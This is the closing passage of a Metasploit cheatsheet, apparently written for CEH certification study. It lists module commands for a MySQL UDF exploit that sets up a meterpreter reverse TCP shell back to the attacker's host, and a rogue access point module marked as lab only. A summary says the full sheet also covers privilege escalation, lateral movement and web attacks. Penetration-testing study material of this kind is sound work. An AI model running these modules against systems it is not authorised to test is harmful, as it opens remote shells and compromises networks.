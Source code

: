 **MySQL UDF Payload (after creds)**

```text
use exploit/multi/mysql/mysql_udf_payload
set RHOST <ip>
set USERNAME <user>
set PASSWORD <pass>
set PAYLOAD linux/x64/meterpreter/reverse_tcp   # or windows/*
set LHOST <your_ip>
set LPORT 4444
exploit
```

### Wireless

**Rogue AP Setup (lab only)**

```text
use auxiliary/scanner/wifi/wifi_rogue_ap
show options
set INTERFACE wlan0
set SSID LabAP
set CHANNEL 6
run
```

---

The cheatsheet includes **Windows**, **Linux**, **Cross‑Platform/Post‑Exploitation/Lateral Movement**, and all **Web, Database, and Wireless modules** from the original CEH toolkit.

- 🪟 **Windows**: Remote vulns, local privesc, lateral movement.
    
- 🐧 **Linux**: Local privesc (all main checks), lateral movement.
    
- 🌐 **Cross-Platform**: Post-exploitation, pivoting.
    
- 🌍 **Web/DB/Wireless**: SQLi, XSS, WordPress, JBoss, MySQL, Rogue AP.